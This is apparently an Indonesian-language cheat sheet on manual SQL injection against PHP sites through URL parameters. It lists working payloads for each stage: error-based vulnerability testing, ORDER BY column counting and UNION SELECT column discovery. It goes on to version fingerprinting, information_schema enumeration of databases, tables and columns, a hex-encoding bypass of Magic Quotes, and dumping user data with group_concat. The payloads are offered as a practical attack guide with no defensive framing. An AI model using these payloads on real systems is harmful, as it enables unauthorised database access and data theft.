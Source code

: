 # Tujuan

- Memanipulasi syntax SQL (Structured Query Language)
- Memasukkan perintah yang digunakan dalam database dalam URL

# Tes Vulnerabilitas

- Mengecek apakah sebuah website memiliki celah keamanan atau tidak untuk dilakukan SQL injection
- Contoh : http://site.com/product.php?id=3
- Pemakaian karakter kutip tunggal (')
  - Karakter kutip tunggal diletakkan di query SQL yaitu "id=3"
  - Dapat diletakkan sebelum, setelah, atau diantara
  - Contoh : http://site.com/product.php?id=3'
- Pemakaian karakter minus (-)
  - Karakter minus diletakkan sebelum nilai
  - Contoh : http://site.com/product.php?id=-3
- Pemakaian operasi pengurangan ditambah komentar
  - Operasi pengurangan diletakkan setelah query
  - Karakter komentar dengan tanda strip dua kali (--)
  - Contoh : http://site.com/product.php?id=3 2-1--
- Jika terjadi error saat melakukan pengecekan maka website tersebut rentan untuk dilakukan serangan SQL injection
- Inti dari tes vulnerabilitas adalah untuk menampilkan halaman error

# Menentukan Jumlah Kolom

- Mengetahui kolom mana dari sebuah tabel yang bisa dimanfaatkan
- Perintah yang digunakan ORDER BY (Catatan case sensitif tidak berpengaruh)
- Cara mengeceknya secara manual, berikut contohnya :
  - http://site.com/product.php?id=3 ORDER BY 1 --
  - Catatan : akhiri dengan tanda komentar dan lakukan sampai kolom tidak ada atau website error
  - http://site.com/product.php?id=3 ORDER BY 1 -- (Website Normal)
  - http://site.com/product.php?id=3 ORDER BY 2 -- (Website Normal)
  - http://site.com/product.php?id=3 ORDER BY 3 -- (Website Error)
  - Catatan : jika website error berarti kolom tersebut tidak ada dan jumlah kolom telah ditemukan

# Mencari Kolom Yang Vulnerable

- Mencari pada kolom ke berapa yang memiliki celah untuk dilakukan SQL injection
- Perintah yang digunakan UNION SELECT dan tanda -- tetap digunakan diakhir
- Cara mengeceknya secara manual, berikut contohnya :
  - http://site.com/product.php?id=3 UNION SELECT (sesuai jumlah kolom) --
  - Catatan : masukkan UNION SELECT sesuai dengan jumlah kolom yang telah ditemukan sebelumnya
  - http://site.com/product.php?id=3 UNION SELECT 1, 2, 3 --
  - Catatan : jika salah satu angka tersebut muncul di halaman website maka kolom tersebut vulnerable
  - Contoh kolom 2 yang vulnerable maka kolom tersebut dapat diubah menjadi teks lain
  - http://site.com/product.php?id=3 UNION SELECT 1, 'Test 2', 3 --
  - http://site.com/product.php?id=3 UNION SELECT 1, 'Test 2', 'Test 3' --

# Menentukan Versi SQL

- Mendapatkan informasi sesuai versi SQL yang digunakan website
- Perintah yang digunakan @@version atau unhex(hex(@@version))
- Syaratnya jumlah kolom dan kolom yang vulnerable sudah ditemukan
- Contoh : http://site.com/product.php?id=3 UNION SELECT 1, @@version, 3 --
- Contoh : http://site.com/product.php?id=3 UNION SELECT 1, unhex(hex(@@version)), 3 --

# Hal-Hal Krusial Seputar Database

- Menggunakan database information_schema :
  - Mencari informasi dari database
  - Mencari nama database
- Perintah yang digunakan :
  - from information_schema
  - from information_schema.schemat
  - group_concat(schema_name)
  - database()  
  - concat(database())
  - DB_NAME()
  - @@database
  - current_user()
  - from mysql
  - from mysql.user
  - session_user()
  - @@user
  - user()
  - (db)
  - from mysql.db
  - concat(db)
  - @@hostname
  - host_name()
  - @@servername
  - serverproperty()
  - @@datadir
  - datadir()
  - @@language
  - last_insert_id()
  - connection_id()

# Menemukan Nama Tabel

- Menggunakan database information_schema :
  - Mencari informasi tabel
  - Mencari nama tabel
- Perintah yang digunakan :
  - group_concat(table_name) "Catatan : maksimal 1024 karakter"
  - table_name
  - from information_schema.tables
  - from information_schema.tables where table_schema=database()

# Mencari Nama Kolom

- Menggunakan database information_schema :
  - Mencari informasi kolom
  - Mencari nama kolom
- Perintah yang digunakan :
  - group_concat(column_name)
  - from information_schema.columns
  - from information_schema.columns where table_name="nama_table"
  - from information_schema.columns where table_name='nama_table'
- Jika muncul pesan error atau halaman website tidak menampilkan hasil maka kemungkinan pemilik website menggunakan Magic Quotes
- Untuk melewati hal tersebut dengan cara menggunakan kode hexa atau konverter hexa untuk mengubah teks biasa ke char atau hex
  - http://swingnote.com/tools/texttohex.php
  - http://easycalculation.com/ascii-hex.php
- Contoh yang dikonver menjadi hexa adalah nama_table dan setelah diubah menjadi hexa maka tambahkan 0x dibagian awal, contoh : 0x6a6f735f7573657273

# Trik Tabel & Kolom

- Menampilkan beberapa tabel dan kolom sekaligus
- Perintah yang digunakan :
  - (SELECT (@) FROM (SELECT(@:=0x00),(SELECT (@) FROM (information_schema.columns) WHERE (table_schema >= @) AND (@) IN (@:=CONCAT(@,0x0a,'[',table_schema,']>', table_name,'>',column_name))))x)
  - SELECT MID(GROUP_CONCAT(0x3c62723e, 0x5461626c653a20, table_name, 0x3c62723e, 0x436f6c756d6e3a20, column_name ORDER BY (SELECT version from information_schema.tables) SEPARATOR 0x3c62723e),1,1024) FROM information_schema.columns
  - SELECT table_name FROM information_schema.columns WHERE column_name = 'kata atau kriteria yang dicari';
  - SELECT table_name FROM information_schema.columns WHERE column_name = 'username';
  - SELECT table_name FROM information_schema.columns WHERE column_name LIKE '%user%';
  - SELECT column_name FROM information_schema.columns WHERE table_name LIKE '%user%';

# Menampilkan Isi Data

- Melihat data yang terdapat didalam kolom
- Perintah yang digunakan :
  - group_concat(kolom1,0x3a,kolom2,0x3a) "Catatan 0x3a merupakan tanda :"
  - concat_ws(0x3a,kolom1,kolom2)
  - (kolom1)
  - from nama_database.nama_table
